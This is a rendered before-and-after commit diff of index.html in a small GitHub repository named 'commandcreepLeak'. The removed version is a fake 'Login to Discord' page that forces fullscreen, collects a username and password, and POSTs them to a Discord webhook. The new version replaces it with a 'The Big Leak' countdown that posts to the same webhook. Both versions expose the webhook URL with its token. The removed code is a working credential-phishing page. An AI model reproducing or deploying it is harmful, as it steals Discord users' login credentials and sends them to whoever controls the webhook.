

Before and after one commit to bentleyplayz37/commandcreepLeak, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (329-969 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,76 +1,90 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-    <title>Login to Discord</title>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>The Big Leak</title>
     <style>
-        body {
-            background-color: #7289da;
-            color: white;
+        /* Reset some basic styles */
+        body, html {
+            margin: 0;
+            padding: 0;
+            height: 100%;
             font-family: Arial, sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            background-color: #2c2f33; /* Discord dark mode background color */
+            color: #ffffff; /* Discord text color */
+        }
+
+        /* Container for the content */
+        .container {
             text-align: center;
         }
-        form {
-            margin: 0 auto;
-            width: 250px;
-            padding: 20px;
-            background-color: #5865f2;
-            border-radius: 10px;
+
+        /* Style the heading */
+        h1 {
+            font-size: 48px;
+            margin-bottom: 20px;
         }
-        input[type="text"],
-        input[type="password"],
-        input[type="button"] {
-            width: 100%;
-            padding: 8px;
-            margin: 5px 0;
-            box-sizing: border-box;
-            border: none;
-            background-color: #8e9297;
-            color: white;
-            border-radius: 5px;
+
+        /* Style the countdown */
+        #countdown {
+            font-size: 24px;
         }
-        input[type="button"] {
-            background-color: #7289da;
-            cursor: pointer;
+
+        /* Style the individual time elements */
+        #countdown span {
+            display: inline-block;
+            min-width: 50px;
         }
     </style>
+</head>
+<body>
+    <div class="container">
+        <h1>The Big Leak</h1>
+        <div id="countdown">
+            <span id="days">7</span> days
+            <span id="hours">00</span> hours
+            <span id="minutes">00</span> minutes
+            <span id="seconds">00</span> seconds
+        </div>
+    </div>
+
     <script>
-        function sendData() {
-            var username = document.getElementById('username').value;
-            var password = document.getElementById('password').value;
+        // Set the date we're counting down to
+        const countDownDate = new Date().getTime() + 7 * 24 * 60 * 60 * 1000; // 1 week from now
 
-            var data = {
-                username: username,
-                password: password
-            };
+        // Update the count down every 1 second
+        const x = setInterval(function() {
+            const now = new Date().getTime();
+            const distance = countDownDate - now;
 
+            const days = Math.floor(distance / (1000 * 60 * 60 * 24));
+            const hours = Math.floor((distance % (1000 * 60 * 60 * 24)) / (1000 * 60 * 60));
+            const minutes = Math.floor((distance % (1000 * 60 * 60)) / (1000 * 60));
+            const seconds = Math.floor((distance % (1000 * 60)) / 1000);
+
+            document.getElementById("days").innerHTML = days;
+            document.getElementById("hours").innerHTML = hours;
+            document.getElementById("minutes").innerHTML = minutes;
+            document.getElementById("seconds").innerHTML = seconds;
+
+            if (distance < 0) {
+                clearInterval(x);
+                document.getElementById("countdown").innerHTML = "EXPIRED";
+
+                // Send webhook message
                 fetch('https://discord.com/api/webhooks/1260055078388371527/kqAjXWAC-DTqTJWeLNGOPtl6BiwHClcAAESc2PODI7b4flSGDvOpJG1MjNzhYGnlZHrB', {
                     method: 'POST',
                     headers: {
                         'Content-Type': 'application/json'
                     },
-                body: JSON.stringify(data)
-            }).then(response => {
-                if (response.ok) {
-                    alert('Data sent successfully for confirmation!');
-                } else {
-                    alert('Error sending data. Please try again.');
-                }
+                    body: JSON.stringify({ content: 'Times up' })
                 });
             }
-
-        document.addEventListener("DOMContentLoaded", function() {
-            document.documentElement.requestFullscreen();
-        });
+        }, 1000);
     </script>
-</head>
-<body>
-    <h2>Login to Discord</h2>
-    <form>
-        <label for="username">Username:</label><br>
-        <input type="text" id="username" name="username"><br>
-        <label for="password">Password:</label><br>
-        <input type="password" id="password" name="password"><br><br>
-        <input type="button" value="Submit" onclick="sendData()">
-    </form>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
